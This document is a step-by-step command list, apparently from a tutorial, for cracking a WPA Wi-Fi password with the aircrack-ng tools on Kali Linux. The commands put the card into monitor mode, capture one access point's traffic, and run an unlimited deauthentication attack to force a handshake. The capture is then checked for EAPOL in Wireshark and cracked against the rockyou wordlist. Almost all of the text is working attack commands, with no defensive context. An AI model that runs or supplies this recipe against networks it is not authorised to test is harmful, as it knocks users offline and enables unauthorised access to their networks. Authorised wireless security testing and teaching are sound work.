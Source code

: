 ================
Commands used:
================

# See version of Kali

```bash
cat /etc/os-release
```

```bash
uname -a
```

# See interfaces

```bash
ip addr
```

```bash
iwconfig
```

# kill processes

```bash
sudo airmon-ng check kill
```

# Start monitor mode

```bash
sudo airmon-ng start wlan0
```

# Verify that monitor mode is used

```bash
sudo airmon-ng
```

# You could also use iwconfig to check that interface is in monitor mode:

```bash
iwconfig
```

#  Get the AP's MAC address and channel

```bash
sudo airodump-ng wlan0mon
```

#  AP-MAC & channel - you need to select your own here:

ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2

# 1st Window:
# Make sure you replace the channel number and bssid with your own
# Replace hack1 with your file name like capture1 or something

```bash
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```

# 2nd Window - deauth attack
# Make sure you replace the bssid with your own

```bash
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```

# Use Wireshark to open hack file

```bash
wireshark hack1-01.cap
```

# Filter Wireshark messages for EAPOL

eapol

# Stop monitor mode

```bash
airmon-ng stop wlan0mon
```

# Crack file with Rock you or another wordlist
# Make sure you have rockyou in text format (unzip file on Kali)
# Replace hack1-01.cap with your file name

```bash
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```